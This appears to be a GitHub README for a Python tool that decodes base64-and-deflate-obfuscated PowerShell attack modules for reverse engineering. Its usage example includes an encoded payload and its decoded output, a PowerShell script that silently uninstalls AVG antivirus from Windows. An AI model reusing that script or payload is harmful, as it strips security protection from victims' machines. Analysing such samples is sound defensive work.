 # deflate64
Deflate64 - Decoding Base 64 strings, decompress content

Some sploits are a collection of Microsoft Powershell modules that can be used to penetrate systems. The majority of it is made with encoded strings in base 64 and after that compressed in deflate format.
This program decode base 64 strings and decompress them, allowing you to do a reverse engineering to understand what the code does.

Deflate64 works out of the box with Python version '''3.x.x''' on any platform.

### Usage

To get the list of basic options and information about the project:

python deflate64.py -h

### Examples of use:

```sh
 python deflate64.py -u "xZJRa8IwFIXfBf/DJfRBZbWg4sNEhgzdxuYm1tk9FCTEaw2LiUsiCl3/+zKZYp3uaWOPPff03O8e4q0kl8ZSIeo1A21IGAdye//Qv4zDp94o6gy7caTWzUa99qimGPc508qomY0jLqdqbeLrldYo7Ri14UrGz7s8Au8wUxopm0MKyRK8SXUQDqidQ+ZGV070JuAL/opAKp3xTYVsBwYFMgv7nNBqLpNWseDtUZuNc6j/iFcsfMWVDkGBS8iBlyHNn+IuOfysHiWDP8SloMxR9A3vbpBVcYPkgpCDSXB3LLx8Cq2fN400X5TKzsRneebd1QOtEk0X0OMCTYWU0wyFwdTZtPWXWjE0BsjCcNxhgU914rRgk1sFELxJCKQraPuz80WUW8iy1qna6rV8be5pHtXmHO2c4c9q+77pdG3O98u1ucTztX0A" --txt example.txt
```

Result (content example.txt):
 
 ```sh
&uninstall32s = gci "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;
$uninstall64s = gci "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall" | foreach { gp $_.PSPath } | ? { $_ -like "*AVG*" } | select UninstallString;

foreach($uninstall64 in $uninstall64s) {
$uninstall64 = $uninstall64.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall64 = $uninstall64.Trim();
if($uninstall64 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall64  /qn /norestart" -Wait }};
foreach($uninstall32 in $uninstall32s) {
$uninstall32 = $uninstall32.UninstallString -Replace "MsiExec.exe","" -Replace "/I","" -Replace "/X","";
$uninstall32 = $uninstall32.Trim();
if($uninstall32 -like "*Program Files*"){}else{start-process "msiexec.exe" -args "/x $uninstall32  /qn /norestart" -Wait }};
```
